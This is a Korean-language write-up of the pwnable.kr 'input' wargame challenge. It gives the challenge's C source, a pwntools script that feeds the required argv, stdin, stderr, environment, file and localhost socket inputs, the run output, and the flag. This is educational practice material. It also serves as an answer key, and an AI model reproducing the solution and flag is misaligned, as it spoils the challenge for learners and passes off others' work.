

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

소스는 다음과 같다.

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main(int argc, char* argv[], char* envp[]){
        printf("Welcome to pwnable.kr\n");
        printf("Let's see if you know how to give input to program\n");
        printf("Just give me correct inputs then you will get the flag :)\n");

        // argv
        if(argc != 100) return 0;
        if(strcmp(argv['A'],"\x00")) return 0;
        if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
        printf("Stage 1 clear!\n");

        // stdio
        char buf[4];
        read(0, buf, 4);
        if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
        read(2, buf, 4);
        if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
        printf("Stage 2 clear!\n");

        // env
        if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
        printf("Stage 3 clear!\n");

        // file
        FILE* fp = fopen("\x0a", "r");
        if(!fp) return 0;
        if( fread(buf, 4, 1, fp)!=1 ) return 0;
        if( memcmp(buf, "\x00\x00\x00\x00", 4) ) return 0;
        fclose(fp);
        printf("Stage 4 clear!\n");

        // network
        int sd, cd;
        struct sockaddr_in saddr, caddr;
        sd = socket(AF_INET, SOCK_STREAM, 0);
        if(sd == -1){
                printf("socket error, tell admin\n");
                return 0;
        }
        saddr.sin_family = AF_INET;
        saddr.sin_addr.s_addr = INADDR_ANY;
        saddr.sin_port = htons( atoi(argv['C']) );
        if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
                printf("bind error, use another port\n");
                return 1;
        }
        listen(sd, 1);
        int c = sizeof(struct sockaddr_in);
        cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
        if(cd < 0){
                printf("accept error, tell admin\n");
                return 0;
        }
        if( recv(cd, buf, 4, 0) != 4 ) return 0;
        if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
        printf("Stage 5 clear!\n");

        // here's your flag
        system("/bin/cat flag");
        return 0;
}
```

exploit 코드는 다음과 같다.

```python
from pwn import *

#stage1
argv = [str(i) for i in range(100)]
argv[ord('A')] = '\x00'
argv[ord('B')] = '\x20\x0a\x0d'

#stage2
input_data = '\x00\x0a\x00\xff'
with open('stderr', 'w') as fp: fp.write('\x00\x0a\x02\xff')

#stage3
env = {'\xde\xad\xbe\xef': '\xca\xfe\xba\xbe'}

#stage4
with open('\x0a', 'w') as fp: fp.write('\x00\x00\x00\x00')

#stage5
argv[ord('C')] = '1337'

p = process(executable='/home/input2/input', argv=argv, stderr=open('stderr'), env=env)
p.sendline(input_data)
r = remote('localhost', int(argv[ord('C')]))
r.send('\xde\xad\xbe\xef')
for i in range(9):
        print(p.recvline())

[Output]
input2@pwnable:/tmp/lv-1$ python input.py
[+] Starting local process '/home/input2/input': pid 91420
[+] Opening connection to localhost on port 1337: Done
Welcome to pwnable.kr

Let's see if you know how to give input to program

Just give me correct inputs then you will get the flag :)

Stage 1 clear!

Stage 2 clear!

Stage 3 clear!

Stage 4 clear!

Stage 5 clear!

[*] Process '/home/input2/input' stopped with exit code 0 (pid 91420)
Mommy! I learned how to pass various input in Linux :)

[*] Closed connection to localhost port 1337
```


# **FLAG**

**Mommy! I learned how to pass various input in Linux :)**